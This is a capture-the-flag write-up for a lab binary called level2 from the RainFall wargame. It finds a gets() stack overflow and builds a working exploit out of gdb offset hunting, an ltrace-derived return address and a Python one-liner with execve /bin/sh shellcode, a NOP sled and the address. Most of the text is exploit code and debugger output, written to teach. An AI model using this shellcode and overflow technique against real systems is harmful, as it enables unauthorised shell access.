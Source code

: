 First we start by open the file in [dogbolt](https://dogbolt.org/). We can see that it use the `gets` function which is vulnerable to overflow attacks.

Here we see that we have to get a shellcode to launch a shell. We can use [shell-storm](https://shell-storm.org/shellcode/index.html) :

We use a pattern like the previous level:
`aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz`

```
(gdb) r
Starting program: /home/user/level2/level2
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppuuuurrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x75757575 in ?? ()
(gdb) x/s $esp
0xbffff720:      "vvvvwwwwxxxxyyyyzzzz"
```

26-5=21</br>
21\*4=84

Now to find the return address we will use ltrace on the file:

```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                                 = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                                                                      = 0xbffff6fc
puts(""
)                                                                                                                                           = 1
strdup("")                                                                                                                                         = 0x0804a008
+++ exited (status 8) +++
```

Here we can see that the strdup use the address 0x0804a008 (address from the buffer)
When transform in little endian and hex: \x08\xa0\x04\x08

84-size(shellcode) : 84 - 21= 63
63-size(address) : 63 - 4 = 59

So now we know that our exploit will be compose by :
[21 char of shellcode][a 59 nop sled][4 bytes address]

```Shell
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08"' > /tmp/test3
```
